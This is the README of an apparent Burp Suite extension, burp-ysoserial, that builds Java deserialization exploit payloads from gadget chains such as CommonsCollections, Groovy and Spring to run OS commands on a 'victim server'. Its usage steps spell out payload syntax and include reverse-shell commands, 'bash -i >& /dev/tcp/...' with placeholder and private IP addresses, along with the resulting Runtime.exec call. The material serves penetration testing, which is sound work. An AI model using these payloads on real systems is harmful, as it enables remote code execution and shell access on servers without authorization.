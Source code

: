 # burp-ysoserial - with complex command in injection support

Download the jar file here: [ysoserial.jar](https://github.com/summitt/burp-ysoserial/releases)

There are 3 ways to run this [Burp](https://portswigger.net/) extension. 

 1. Generate a payload from the Java Serialized Payloads Tab. You can then copy and paste it into other tabs in [Burp](https://portswigger.net/).(Not ideal)
 1. Generate a payload from the Java Serialized Payloads Tab. In another tab you can select the text you want to replace and right click. You have 3 options to replace.
   1. Raw - This will replace your selected text with an unencoded version of the payload. This is raw binary/hex.
   1. B64 - This payload will replace your selected text with a base64 encoded version.
   1. URLEnc - This will replace your selected text with a URL encoded and base64 encoded payload. Ideal for web type applications
 1. You can use inline commands to replace your text with a payload that contains your command. For example you can enter text in repeater like:
 
 ```$(CC1|ping -c1 8.8.8.8)```
 
 Select the above text and right click any of the Java Serialized Payload Options and it will replace your command with a payload containing that command.
 
 The first parameter before the pipe in the above statement is the version of the exploit. You can enter any of the following:
  - CC1 or CollectionCommons1
  - CC2 or CollectionCommons2
  - GV1 or Groovy1
  - SP1 or Spring1
  
 The second parameter is obviously the OS command you wish to run.
 
## Complex Commands (i.e. pipes and I/O redirection)
Note ysoserial in this extension has been updated to accept more complicated commands that in the original. For instance commands like the following command would fail to execute on the victim server in the original ysoserial application.
 
```echo test > /tmp/text.txt```
  or
```bash -c "echo test > /tmp/text.txt"```
 
This is because to run complex commands that pipe command into other commands in java the arguments needs to be a string Array. This version of ysoserial has been modified by using a delimter of ",," to seperate your arguments to the string array.  Here is an example of running a more complicated command using this method to get a reverse shell: 
  
 ```/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1```
 
The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like:
```Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});```

##Examples
### Example 1 - Replace selected text with a pre-generated payload
1. First Generate a payload
![Payload Generator](/Payload%20Generator.png)
2. Go to Repeater and select the text you want to replace.
3. Right Click and select a payload option.
![Payload Generator](/replace%20with%20generated.png)

### Example 2 - Use and inline command
1. In [Burp](https://portswigger.net/) Repeater replace your parameter with the following code:

```$(CC1|ping -c1 8.8.8.8)```

2. Select the above text. Right Click in repeater and select the payload type.
![Payload Generator](/inline-command.png)

### Example 3 - Complex commands 
1. In Repeater replace your parameter with the following command:

```$(CC1|/bin/bash,,-c,,bash -i >& /dev/tcp/192.168.1.223/9997 0>&1)```

2. Select it and select the payload you want to generate.
![Payload Generator](/inline%20complex%20command.png)
